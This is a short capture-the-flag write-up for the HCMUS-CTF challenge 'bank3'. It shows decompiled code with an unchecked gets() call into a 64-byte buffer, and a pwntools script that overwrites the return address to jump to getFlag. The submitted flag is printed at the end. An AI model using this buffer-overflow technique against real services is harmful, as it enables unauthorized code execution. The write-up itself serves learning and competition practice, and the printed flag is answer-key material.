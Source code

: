 ## bank3

#### Solved by hieplpvip

```
nc 61.28.237.24 30204

author: xikhud
```

`bank3` is very similar to `bank2`, except that the part which calls `getFlag` is removed:

```cpp
void Register()
{
  char name[64]; // [esp+Ch] [ebp-4Ch]
  int balance; // [esp+4Ch] [ebp-Ch]

  balance = 0;
  printf("[+] Please enter your name: ");
  gets(name);
  printf("[+] Thanks for the registration, your balance is %d.\n", balance);
}
```

We use buffer overflow to overwrite the return address with the address of `getFlag`:

```py
from pwn import *
conn = remote('61.28.237.24', 30204)
conn.sendlineafter("name:", b'a' * 80 + p32(0x08048506))
conn.interactive()
```

**Flag:** `HCMUS-CTF{overwrite_all_the_things}`
